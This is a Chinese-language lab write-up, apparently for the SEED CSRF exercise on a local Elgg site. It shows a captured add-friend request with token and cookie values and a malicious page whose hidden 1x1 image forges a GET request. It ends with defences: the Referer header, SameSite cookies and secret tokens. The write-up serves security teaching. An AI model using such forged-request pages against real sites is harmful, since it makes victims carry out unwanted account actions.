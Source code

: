 # 
#### 
![](/web-security/img/csrf-3.png)

访问www.seed-server.com使用boby登陆后，可以看到cookie已经被设置了。  


#### GET方式攻击
![](/web-security/img/csrf-4.png)

首先在Members页面里找一个用户添加为好友，观察并获取需要的字段。  
```
http://www.seed-server.com/action/friends/add?friend=58&__elgg_ts=1628987383&__elgg_token=8KUL361JTeIRnscFZfF9Fg&__elgg_ts=1628987383&__elgg_token=8KUL361JTeIRnscFZfF9Fg
```
添加好友的url是: http://www.seed-server.com/action/friends/add  
参数是friend 即用户的id  
Cookie: Elgg=2tfmbv4kf3ctd6cc779nm3sd9u  
__elgg_token 和 __elgg_ts 是Elgg服务应对CSRF的攻击(在这个实验环境中已关闭)  


**构建恶意页面**  
Alice的用户id是56  
width和height设置为1小到页面不可见
```
<html>
<body>
<h1>This page forges an HTTP GET request</h1>
<img src="http://www.seed-server.com/action/friends/add?friend=56" alt="image" width="1" height="1" />
</body>
</html>
```


在实验环境这一节中，下载的文件里有一个attacker文件夹  

![](/web-security/img/csrf-5.png)  


!!!warning  
    不知道是不是这个docker环境的原因，没成功。检查了Labsetup/image_www/elgg/Csrf.php中的validate函数，确实把csrf防御关闭了

#### POST方式攻击
同get请求


#### 防御方式
1.referer头: 它是用来记录请求是从哪一个页面发出的，它存储的是改网页的url。但是这个字段并不是很可靠，因为它会泄漏使用者的浏览历史，产生隐私泄漏问题。一些浏览器(或者扩展）和代理会将此字段删除以此保护用户隐私。  
2.同站cookie: 给cookie添加了一个特殊的属性称为SameSite属性,它是服务器进行设置的。它告诉浏览器cookie是否可以被跨站使用`Set-Cookie:键=值； HttpOnly; SameSite = strict` strict值不会与跨站请求一起发送。还有一个值是Lax(cookie只有在顶级导航的跨站请求可以一起发送)  
3.秘密令牌:   
  一种方法是在每个页面内嵌入一个随即的机密值。当发起请求后，该机密值就放在请求中。由于同源策略，不同源的页面不能访问此页面的内容，因此恶意页面无法在跨站请求种包含正确的机密值。  
  另一种方法是把一个机密值放在cookie中。当一个请求发起后，请求从cookie种读出该机密值并将它包含在请求的数据字段内。该字段独立于已被浏览器包含的cookie。由于同源策略，不同源的页面无法读取其他源cookie内容(尽管浏览器确实会自动附加cookie)

